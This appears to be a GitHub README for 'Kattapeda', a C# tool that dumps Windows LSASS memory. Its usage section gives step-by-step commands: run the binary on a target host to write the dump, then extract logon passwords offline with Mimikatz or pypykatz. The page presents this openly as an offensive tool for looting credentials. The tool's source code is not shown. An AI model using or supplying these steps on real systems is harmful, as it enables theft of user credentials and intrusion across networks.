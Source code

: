 
██╗  ██╗ █████╗ ████████╗████████╗ █████╗ ██████╗ ███████╗██████╗  █████╗ ");
██║ ██╔╝██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔══██╗██╔════╝██╔══██╗██╔══██╗");
█████╔╝ ███████║   ██║      ██║   ███████║██████╔╝█████╗  ██║  ██║███████║");
██╔═██╗ ██╔══██║   ██║      ██║   ██╔══██║██╔═══╝ ██╔══╝  ██║  ██║██╔══██║");
██║  ██╗██║  ██║   ██║      ██║   ██║  ██║██║     ███████╗██████╔╝██║  ██║");
╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝╚═╝     ╚══════╝╚═════╝ ╚═╝  ╚═╝");

![Python](https://img.shields.io/badge/C#-blue.svg)
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

Kattapeda is a very simple LSASS memory dump tool in C# based on Win32 `MiniDumpWriteDump` API. 
The dump file created, can be exploited offline with Mimikatz or Pypykatz.

>[!CAUTION]
> The dump will fail if the memory is LSA protected. Consequently, the created file will be empty. Check the prerequisite before running kattapeda.

#### USAGE
- compile the .cs source code
- on target, execute the program:
`.\kattax64.exe c:\windows\tasks\mini.dmp`
- offline, use pypykatz or mimikatz to loot the content of the lsass memory dump using:
`mimikatz # sekurlsa::minidump lsass.dmp sekurlsa::logonPasswords`
or:
`pypykatz lsa minidump lsass.dmp`

The content of the dumped memory will be written into the file passed as argument. By default, the program uses `c:\windows\tasks\mini.dmp`




